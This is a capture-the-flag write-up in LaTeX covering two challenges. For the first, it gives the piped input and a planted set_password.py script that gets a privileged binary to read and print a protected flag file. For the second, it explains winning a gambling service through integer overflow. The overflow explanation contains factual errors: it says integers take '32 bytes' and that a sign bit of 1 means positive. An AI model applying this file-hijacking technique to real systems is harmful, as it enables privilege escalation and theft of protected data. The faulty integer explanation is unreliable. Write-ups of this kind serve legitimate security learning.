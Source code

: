 \documentclass [12 pt, twoside] {article}
\begin{document}
This should work right? BUT NO!! This is what you get:
\begin{lstlisting}
$ { python -c 'print "0123456789abcdefg"' ; python -c 'print "\x01"' ; } | ./obo 
New password: Confirm old password: Not yet implemented.
Password changed!
\end{lstlisting}


The heck??? Turns out set\_password.py just prints out "Not yet implemented."


Here's the troll part, since set\_password.py gets full admin access, the trick
is to create your own set\_password.py in the home directory and run the whole thing
from there. Your own set\_password.py includes opening flag.txt, reading it and
printing out the results, it should end up looking like this:
\begin{lstlisting}[language=python]
#!/usr/bin/python

f = open("/home/obo/flag.txt","r").read()

print f
\end{lstlisting}

And the final command line execution:

\begin{lstlisting}
~$ { python -c 'print "0123456789abcdefg"' ; python -c 'print "\x01"' ; } | /home/obo/obo
\end{lstlisting}

That should work.


\subsection{Netsino}


As scary as this one looks, it's not that bad. The trick here is the idea of integer overflow.
The bet is a positive long integer, but as we know, integers wrap around because there are
only 32 bytes allocated for each integer. The first byte is called a sign-byte, if it's 1,
the number is positive, else, it's negative. Therefore the largest allowable number
is $2^{31} - 1$ (because the existance of 0), everything greater than that will wrap around into the realm of negatives.


For example, $2^{31}$ will actually return $-(2^{31})$ because it wraps around.


The trick to this problem is precisely that, enter a huge number, lose, and let the boss
pay the debt, happy gambling! :D
\end{document}
